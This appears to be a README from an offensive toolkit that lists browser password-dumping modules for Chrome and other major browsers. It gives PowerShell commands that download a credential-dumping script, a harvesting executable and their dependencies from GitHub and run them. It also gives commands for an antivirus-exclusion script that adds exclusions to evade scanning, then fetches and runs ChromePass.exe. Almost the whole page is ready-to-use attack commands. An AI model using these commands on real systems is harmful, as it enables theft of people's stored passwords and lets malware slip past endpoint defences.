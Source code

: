 ## Module Name
   <b><i>DumpChromePasswords.ps1</i></b>

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|Only dumps chrome browser|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```

**prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

```powershell
.\DumpChromePasswords.ps1
```

<br />


## Module Name
   <b><i>HarvestBrowserPasswords.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|Dumps major browsers|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```

<br />


## Module Name
   <b><i>ChromePass.exe - UNDER-DEVELOP (NOT-STABLE)</i></b>
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|ChromePass|dumps usernames, passwords from chrome|Administrator|Invoke-ExclusionExtension.ps1 downloads\evade AV|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/BypassAV/Invoke-ExclusionExtension.ps1" -OutFile "Invoke-ExclusionExtension.ps1"
```

```powershell
Get-help .\Invoke-ExclusionExtension.ps1 -Force

.\Invoke-ExclusionExtension.ps1 -action 'add' -Extension 'exe' -Directory '#Env:TMP'
.\Invoke-ExclusionExtension.ps1 -action 'exe' -Uri 'https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe' -Extension 'exe'
.\Invoke-ExclusionExtension.ps1 -action 'del' -Extension 'exe'
```
